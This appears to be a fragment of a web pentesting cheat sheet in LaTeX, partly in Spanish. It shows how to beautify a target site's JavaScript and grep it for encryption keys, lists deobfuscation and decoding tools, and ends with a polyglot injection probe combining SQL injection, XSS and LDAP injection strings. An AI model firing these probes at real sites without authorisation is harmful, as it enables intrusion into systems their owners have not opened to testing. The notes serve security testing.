 Installation of tools:
\begin{lstlisting}[numbers=none]
pip install jsbeautifier
js-beautify file.js
\end{lstlisting}
	
Encription keys search:
\begin{lstlisting}[numbers=none]
curl -s https://vulnerable-site.com/js/app.dca99adc.js | js-beautify | awk '{$1=$1;print}' | grep -iE  "crypt|aes|hmac|md5|sha512|sha256|sha1"

echo -n 'hsBI69O90juKhpPx' | md5sum 
\end{lstlisting}

In case the code is obsfuscated:
\begin{itemize}
	\item JavaScript Deobfuscator (deobfuscate.io)
	\item de4js | JavaScript Deobfuscator and Unpacker (lelinhtinh.github.io)
\end{itemize}

Encrypt and Decrypt with Key in Online | Online Encryption and Decryption (bitcompiler.com)
JSON Web Tokens - jwt.io

Si esta en cifrado en la URL entonces URL Parameters o algo asi usar primero un URL Decoder URI.

\section{Code injection validation}

\begin{lstlisting}[numbers=none]
' ; -- ` */ /* -- or # ' OR '1 ' OR 1 -- - OR 1=1 ;%00<script>javascript:alert(123456789)</script> (&(ou=admin)(| (user=Freeman)))
\end{lstlisting}

